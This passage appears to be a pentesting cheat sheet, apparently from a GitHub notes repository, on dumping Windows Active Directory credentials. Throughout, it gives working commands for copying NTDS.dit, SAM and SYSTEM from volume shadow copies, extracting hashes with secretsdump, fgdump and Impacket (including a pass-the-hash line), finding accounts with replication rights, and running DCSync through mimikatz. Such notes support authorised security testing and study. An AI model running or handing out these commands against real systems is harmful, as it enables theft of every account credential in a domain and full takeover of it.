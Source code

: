 ```
delete shadows volume %someAlias%
reset

# vssown
cscript vssown.vbs /start
cscript vssown.vbs /create c

# Powersploit
Import-Module .\VolumeShadowCopyTools.ps1
New-VolumeShadowCopy -Volume C:\
```
Get shadow copy:
```
# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\

# Or copy the ntds, sam and system files directly from the sadow copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM\ C:\temp 2>&1
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM\ C:\temp 2>&1
```
Automate:
```
# Nishang
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```
##### Dump hashes
```
secretsdump.py -system system.save -ntds ntds.dit LOCAL
```
##### Automate 
```
# fgdump
fgdump.exe

# Impacket
impacket-secretsdump -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.0
```
####  DCsync
Need **DS-Replication-Get-Changes** + **DS-Replication-Get-Changes-Al**l rights on the domain.
Retrieve most users who can perform DC replication for dev.testlab.local:
```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```
Replicate database:
```
#DCsync using mimikatz (You need DA rights or DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'

#DCsync using secretsdump.py from impacket with NTLM authentication
secretsdump.py <user>:<password>@<ipaddress> -just-dc

#DCsync using secretsdump.py from impacket with Kerberos Authentication
secretsdump.py -no-pass -k <Domain>/<Username>@<DCIPorFQDN> -just-dc-ntlm
```
**Tip:**   
/ptt -> inject ticket on current running session  
/ticket -> save the ticket on the system for later use
